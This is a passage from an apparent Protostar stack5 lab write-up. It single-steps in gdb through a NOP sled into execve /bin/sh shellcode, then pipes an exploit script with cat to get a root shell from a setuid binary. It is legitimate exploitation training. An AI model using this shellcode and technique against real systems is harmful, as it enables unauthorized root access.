0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ba in ?? ()
(gdb)
0xbffff7bb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bb in ?? ()
(gdb)
0xbffff7bc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bc in ?? ()
(gdb)
0xbffff7bd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bd in ?? ()
(gdb)
0xbffff7be:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7be in ?? ()
(gdb)
0xbffff7bf:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bf in ?? ()
(gdb)
0xbffff7c0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c0 in ?? ()
(gdb)
0xbffff7c1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c1 in ?? ()
(gdb)
0xbffff7c2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c2 in ?? ()
(gdb)
0xbffff7c3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c3 in ?? ()
(gdb)
0xbffff7c4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c4 in ?? ()
(gdb)
0xbffff7c5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c5 in ?? ()
(gdb)
0xbffff7c6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c6 in ?? ()
(gdb)
0xbffff7c7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c7 in ?? ()
(gdb)
0xbffff7c8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c8 in ?? ()
(gdb)
0xbffff7c9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c9 in ?? ()
(gdb)
0xbffff7ca:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ca in ?? ()
(gdb)
0xbffff7cb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cb in ?? ()
(gdb)
0xbffff7cc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cc in ?? ()
(gdb)
0xbffff7cd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cd in ?? ()
(gdb)
0xbffff7ce:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ce in ?? ()
(gdb)
0xbffff7cf:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cf in ?? ()
(gdb)
0xbffff7d0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d0 in ?? ()
(gdb)
0xbffff7d1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d1 in ?? ()
(gdb)
0xbffff7d2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d2 in ?? ()
(gdb)
0xbffff7d3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d3 in ?? ()
(gdb)
0xbffff7d4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d4 in ?? ()
(gdb)
0xbffff7d5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d5 in ?? ()
(gdb)
0xbffff7d6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d6 in ?? ()
(gdb)
0xbffff7d7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d7 in ?? ()
(gdb)
0xbffff7d8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d8 in ?? ()
(gdb)
0xbffff7d9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d9 in ?? ()
(gdb)
0xbffff7da:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7da in ?? ()
(gdb)
0xbffff7db:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7db in ?? ()
(gdb)
0xbffff7dc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7dc in ?? ()
(gdb)
0xbffff7dd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7dd in ?? ()
(gdb)
0xbffff7de:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7de in ?? ()
(gdb)
0xbffff7df:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7df in ?? ()
(gdb)
0xbffff7e0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e0 in ?? ()
(gdb)
0xbffff7e1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e1 in ?? ()
(gdb)
0xbffff7e2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e2 in ?? ()
(gdb)
0xbffff7e3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e3 in ?? ()
(gdb)
0xbffff7e4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e4 in ?? ()
(gdb)
0xbffff7e5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e5 in ?? ()
(gdb)
0xbffff7e6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e6 in ?? ()
(gdb)
0xbffff7e7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e7 in ?? ()
(gdb)
0xbffff7e8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e8 in ?? ()
(gdb)
0xbffff7e9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e9 in ?? ()
(gdb)
0xbffff7ea:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ea in ?? ()
(gdb)
0xbffff7eb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7eb in ?? ()
(gdb)
0xbffff7ec:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ec in ?? ()
(gdb)
0xbffff7ed:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ed in ?? ()
(gdb)
0xbffff7ee:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ee in ?? ()
(gdb)
0xbffff7ef:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ef in ?? ()
(gdb)
0xbffff7f0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f0 in ?? ()
(gdb)
0xbffff7f1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f1 in ?? ()
(gdb)
0xbffff7f2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f2 in ?? ()
(gdb)
0xbffff7f3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f3 in ?? ()
(gdb)
0xbffff7f4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f4 in ?? ()
(gdb)
0xbffff7f5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f5 in ?? ()
(gdb)
0xbffff7f6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f6 in ?? ()
(gdb)
0xbffff7f7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f7 in ?? ()
(gdb)
0xbffff7f8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f8 in ?? ()
(gdb)
0xbffff7f9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f9 in ?? ()
(gdb)
0xbffff7fa:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fa in ?? ()
(gdb)
0xbffff7fb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fb in ?? ()
(gdb)
0xbffff7fc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fc in ?? ()
(gdb)
0xbffff7fd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fd in ?? ()
(gdb)
0xbffff7fe:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fe in ?? ()
(gdb)
0xbffff7ff:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ff in ?? ()
(gdb)
0xbffff800:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff800 in ?? ()
(gdb)
0xbffff801:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff801 in ?? ()
(gdb)
0xbffff802:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff802 in ?? ()
(gdb)
0xbffff803:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff803 in ?? ()
(gdb)
0xbffff804:	xor    eax,eax
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff804 in ?? ()
(gdb)
0xbffff806:	push   eax
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff806 in ?? ()
(gdb)
0xbffff807:	push   0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff7ac:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff807 in ?? ()
(gdb)
0xbffff80c:	push   0x6e69622f
0xbffff798:	0x68732f2f	0x00000000	0x90909090	0x90909090
0xbffff7a8:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff80c in ?? ()
(gdb)
0xbffff811:	mov    ebx,esp
0xbffff794:	0x6e69622f	0x68732f2f	0x00000000	0x90909090
0xbffff7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff811 in ?? ()
(gdb)
0xbffff813:	push   eax
0xbffff794:	0x6e69622f	0x68732f2f	0x00000000	0x90909090
0xbffff7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff813 in ?? ()
(gdb)
0xbffff814:	push   ebx
0xbffff790:	0x00000000	0x6e69622f	0x68732f2f	0x00000000
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff814 in ?? ()
(gdb)
0xbffff815:	mov    ecx,esp
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff815 in ?? ()
(gdb)
0xbffff817:	mov    al,0xb
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff817 in ?? ()
(gdb)
0xbffff819:	int    0x80
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff819 in ?? ()
(gdb)
Executing new program: /bin/dash

Program exited normally.
Error while running hook_stop:
No registers.
(gdb)
```

- Observe the last 10 instructions as it is our shellcode

```sh
(gdb)
0xbffff804:	xor    eax,eax
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff804 in ?? ()
(gdb)
0xbffff806:	push   eax
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff806 in ?? ()
(gdb)
0xbffff807:	push   0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff7ac:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff807 in ?? ()
(gdb)
0xbffff80c:	push   0x6e69622f
0xbffff798:	0x68732f2f	0x00000000	0x90909090	0x90909090
0xbffff7a8:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff80c in ?? ()
(gdb)
0xbffff811:	mov    ebx,esp
0xbffff794:	0x6e69622f	0x68732f2f	0x00000000	0x90909090
0xbffff7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff811 in ?? ()
(gdb)
0xbffff813:	push   eax
0xbffff794:	0x6e69622f	0x68732f2f	0x00000000	0x90909090
0xbffff7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff813 in ?? ()
(gdb)
0xbffff814:	push   ebx
0xbffff790:	0x00000000	0x6e69622f	0x68732f2f	0x00000000
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff814 in ?? ()
(gdb)
0xbffff815:	mov    ecx,esp
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff815 in ?? ()
(gdb)
0xbffff817:	mov    al,0xb
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff817 in ?? ()
(gdb)
0xbffff819:	int    0x80
0xbffff78c:	0xbffff794	0x00000000	0x6e69622f	0x68732f2f
0xbffff79c:	0x00000000	0x90909090	0x90909090	0x90909090
0xbffff819 in ?? ()
(gdb)
Executing new program: /bin/dash

Program exited normally.
Error while running hook_stop:
No registers.
(gdb)
```



```sh
user@protostar:/tmp$ ls -l /bin/sh
lrwxrwxrwx 1 root root 4 Nov 22  2011 /bin/sh -> dash
user@protostar:/tmp$
user@protostar:/tmp$ ls -l /bin/dash
-rwxr-xr-x 1 root root 84144 Dec 14  2010 /bin/dash
user@protostar:/tmp$
```

So `/bin/sh` points to `/bin/dash`

Program exits as `/bin/dash` is not provided with any input

Workaround using `cat`

```sh
user@protostar:/tmp$ cat
asd
asd
lol
lol
reflect
reflect
replay
replay
^C
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ (python exploit.py ; cat ) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
^C
user@protostar:/tmp$
```